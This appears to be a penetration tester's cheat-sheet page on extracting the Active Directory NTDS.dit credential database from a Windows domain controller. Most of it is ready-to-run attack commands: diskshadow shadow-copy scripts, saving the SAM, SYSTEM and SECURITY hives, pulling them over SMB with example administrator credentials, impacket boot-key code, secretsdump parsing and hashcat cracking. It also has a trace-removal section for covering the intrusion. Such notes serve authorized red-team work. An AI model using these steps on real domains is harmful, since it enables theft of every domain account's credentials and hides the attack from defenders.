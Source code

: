 ```yaml
---
description: Windows NT Directory Services
---
```


# NTDS

- [https://github.com/dionach/NtdsAudit](https://github.com/dionach/NtdsAudit)
- [https://github.com/MichaelGrafnetter/DSInternals](https://github.com/MichaelGrafnetter/DSInternals)




## Shadow Disk



### Create via Diskshadow

Locate `diskshadow.exe`:

```
cmd /c where /R C:\ diskshadow.exe
```

Create a shadow disk:

```
cd \Windows\Temp
powershell -c "Add-Content add_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content add_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content add_vol.txt 'set verbose on'"
powershell -c "Add-Content add_vol.txt 'begin backup'"
powershell -c "Add-Content add_vol.txt 'add volume c: alias DCROOT'"
powershell -c "Add-Content add_vol.txt 'create'"
powershell -c "Add-Content add_vol.txt 'expose %DCROOT% w:'"
powershell -c "Add-Content add_vol.txt 'end backup'"
cmd /c diskshadow.exe /s add_vol.txt
```

{% code title="add_vol.txt" %}
```
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
begin backup
add volume c: alias DCROOT
create
expose %DCROOT% w:
end backup
```
{% endcode %}



### Exfiltrate over SMB

Create a network share with anonymous access and put there all we need:

```
cd \Windows\Temp
copy w:\Windows\NTDS\ntds.dit ntds.dit
cmd /c reg.exe save hklm\system system.hive
cmd /c reg.exe save hklm\sam sam.hive
cmd /c reg.exe save hklm\security security.hive
```

Connect to the share and grab the files:

```
$ smbclient.py MEGACORP/administrator:'Passw0rd!'@192.168.1.11
use C$
cd windows/temp
get ntds.dit
get system.hive
get sam.hive
get security.hive
```



### Clean Up

Remove the shadow volume:

```
cd \Windows\Temp
powershell -c "Add-Content delete_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content delete_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content delete_vol.txt 'set verbose on'"
powershell -c "Add-Content delete_vol.txt 'unexpose w:'"
powershell -c "Add-Content delete_vol.txt 'delete shadows volume c:'"
powershell -c "Add-Content delete_vol.txt 'reset'"
cmd /c diskshadow.exe /s delete_vol.txt
```

{% code title="delete_vol.txt" %}
```
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
unexpose w:
delete shadows volume c:
reset
```
{% endcode %}

Remove the share and all the traces:

```
cd \Windows\Temp
rm ntds.dit
rm system.hive
rm sam.hive
rm security.hive
rm C:\Windows\Temp\meta.cab
rm add_vol.txt
rm delete_vol.txt
```




## Raw NTDS.dit Copy

- [https://github.com/3gstudent/ntfsDump](https://github.com/3gstudent/ntfsDump)
- [https://github.com/RedCursorSecurityConsulting/NTFSCopy](https://github.com/RedCursorSecurityConsulting/NTFSCopy)

Obtain a copy of NTDS.dit:

```
PS > Invoke-NTFSCopy C:\Windows\NTDS\ntds.dit C:\Windows\Temp\ntds.dit
```

Parse on-site in conjunction with [NtdsAudit](https://github.com/dionach/NtdsAudit/releases):

```
PS > esentutl.exe /p "C:\Windows\Temp\ntds.dit" /!10240 /8 /o
PS > reg.exe save HKLM\SYSTEM system.hive
PS > .\NtdsAudit.exe ntds.dit -s system.hive -p hashes.txt -u users.csv --dump-reversible cleartext.txt
```

Parse on-site in conjunction with [secretsdump.exe](https://github.com/Qazeer/OffensivePythonPipeline/blob/main/binaries/impacket/secretsdump_windows.exe):

```python
from binascii import hexlify
from impacket.smbconnection import SMBConnection
from impacket.examples.secretsdump import RemoteOperations
hostname = 'DC01.megacorp.local'
username = 'snovvcrash'
password = '<PASSWORD>'
nthash = '' if password else '<NTHASH>'
domain = hostname.split('.', 1)[1]
smbConn = SMBConnection(remoteName=hostname, remoteHost=hostname)
smbConn.login(user=username, password=password, domain=domain, nthash=nthash)
remOps = RemoteOperations(smbConnection=smbConn, doKerberos=False)
remOps.enableRegistry()
bootKey = remOps.getBootKey()
print(hexlify(bootKey).decode())
remOps.finish()
# .\secretsdump.exe LOCAL -ntds C:\Windows\Temp\ntds.dit -bootkey <BOOTKEY>
```




## Parse NTDS.dit

Parse with [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py):

```
$ secretsdump.py [-pwd-last-set] [-user-status] [-history] -sam sam.hive -system system.hive -security security.hive -ntds ntds.dit LOCAL > ntds.txt
$ cat ntds.txt | grep -a aad3b | grep -i 'Status=Enabled' | grep -v 31d6c | grep -v -e '\$' -e '{' -e '}' -e HealthMailbox | awk -F: '{print $1":"$4}' | sort -u > ntds.in
$ hashcat -m 1000 -a 0 -w 3 -O --session=ntds -o ntds.out ntds.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```

Parse with [aesedb](https://github.com/skelsec/aesedb) (faster but less informative):

```
$ antdsparse <BOOTKEY> ntds.dit -o ntds.txt --progress
$ antdsparse system.hive ntds.dit -o ntds.txt --progress
```

Parse with ntdissector:

- [https://www.synacktiv.com/publications/introducing-ntdissector-a-swiss-army-knife-for-your-ntdsdit-files](https://www.synacktiv.com/publications/introducing-ntdissector-a-swiss-army-knife-for-your-ntdsdit-files)
- [https://github.com/synacktiv/ntdissector](https://github.com/synacktiv/ntdissector)



### Reversible Encryption

- [https://adsecurity.org/?p=2053](https://adsecurity.org/?p=2053)
- [https://www.blackhillsinfosec.com/how-i-cracked-a-128-bit-password/](https://www.blackhillsinfosec.com/how-i-cracked-a-128-bit-password/)

Check if enabled globally:

- gpmc.msc > Default Domain Policy > *Computer Configuration* > *Policies* > *Windows Settings* > *Security Settings* > *Account Policies* > *Password Policy* > *Store passwords using reversible encryption* > *Enabled* ✔

Check if enabled for specific users:

```
PS > Get-ADUser -Filter {userAccountControl -band 128} -Properties userAccountControl | ft name,samAccountName,userAccountControl | tee users-revenc.txt
```

{% hint style="info" %}
When DCSyncing such users, a cleartext password will be obtained.
{% endhint %}

